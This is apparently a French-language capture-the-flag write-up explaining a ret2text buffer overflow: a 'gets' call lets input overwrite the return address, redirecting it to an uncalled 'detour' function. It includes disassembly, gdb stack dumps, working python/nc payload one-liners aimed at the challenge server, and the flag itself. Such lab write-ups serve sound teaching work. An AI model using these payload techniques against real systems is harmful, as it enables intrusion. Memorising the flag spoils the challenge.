 # Write up

La fonction `gets` est dépréciée car elle n'est pas sécuritaire, mais elle existe toujours. Dans la plupart des versions de son `manpage`, on retrouve la phrase "Never use this function.". Cette fonction vulnérable nous permet de dépasser le _buffer_ alloué pour notre nom afin de modifier l'adresse de retour de la fonction flux.

En analysant le programme, il y a plusieurs manière de trouver la fonction qu'on désire exécuter. On peut identifier la chaîne de caractères "FLAG-XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX" et trouver où elle est utilisée (ex: `xrefs` dans Ghidra). Si on désassemble simplement le programme avec `objdump`, on peut voir qu'il existe une fonction `detour`. C'est la seule fonction qui n'est pas appelée ce qui en fait une piste très intéressante pour nous; on note donc son adresse.

```
[...]
0000000000401156 <detour>:
  401156:       55                      push   rbp
  401157:       48 89 e5                mov    rbp,rsp
  40115a:       48 8d 35 a7 0e 00 00    lea    rsi,[rip+0xea7]        # 402008 <_IO_stdin_used+0x8>
  401161:       48 8d 3d c8 0e 00 00    lea    rdi,[rip+0xec8]        # 402030 <_IO_stdin_used+0x30>
  401168:       b8 00 00 00 00          mov    eax,0x0
  40116d:       e8 ce fe ff ff          call   401040 <printf@plt>
  401172:       90                      nop
  401173:       5d                      pop    rbp
  401174:       c3                      ret
[...]
```

Dans `gdb`, on peut observer que l'adresse de l'intruction suivant l'appel à `flux` est `0x401242`, on s'attend donc à retrouver cette celle-ci comme adresse de retour. On pourra utiliser cette valeur connue pour identifier son emplacement dans la _stack_.

```
0x40123d <main+110>       call   0x401175 <flux>
0x401242 <main+115>       mov    eax, 0x0
```

On peut ensuite coir l'état de la pile pour comment écraser l'adresse de retour. Dans l'exemple suivant, j'ai entré "TESTESTEST" comme nom. Voici la _stack_ près l'appel à `gets`:

```
gef➤  x/12wx $rsp
0x7fffffffd9d0: 0x54534554      0x45545345      0xff005453      0x00007fff
0x7fffffffd9e0: 0x00401070      0x00c700a4      0x73756f77      0x00686868
0x7fffffffd9f0: 0xffffda10      0x00007fff      0x00401242      0x00000000
             ^emplacement de $rbp
```

On peut voir que la valeur `0x00401242` se trouve 40 bytes après le début de notre buffer. Il faudra dont écrire 44 bytes et que les 4 derniers soient l'adresse de la fonction `detour` (`0x00401156`).

À partir de nos observations, on peut faire une représentation visuelle de la pile comme ceci:

```
                | 16 bytes                          |
                |  8 bytes        | 8 bytes         |
                |  4      | 4     | 4       | 4     |
                |  2 | 2  | 2 | 2 | 2  | 2  | 2 | 2 |
                |-----------------------------------|
                |-----------------------------------|
0x7fffffffd9d0  | son                               | //buffer qui enregistre notre son
                |-----------------------------------|
0x7fffffffd9e0  |0xc7|0xa4| pad | "woushhh"         |
                |-----------------------------------|
0x7fffffffd9f0  | ancien $rbp   |addr retour|       |
                ^$rbp
```

Nous avons maintenant toutes les informations nécessaires pour exploiter le programme et pouvons envoyer notre _payload_.

```
python2 -c 'print("A"*40 + "\x56\x11\x40\x00")' | nc challenges.unitedctf.ca 17001

ou bien

python3 -c 'import sys; sys.stdout.buffer.write(b"A"*40 + b"\x56\x11\x40\x00" + b"\n")' | nc localhost 17001
```

Et on obtient le flag FLAG-RET2TEXT_4cc0mplished_j5fwyolcmPg !

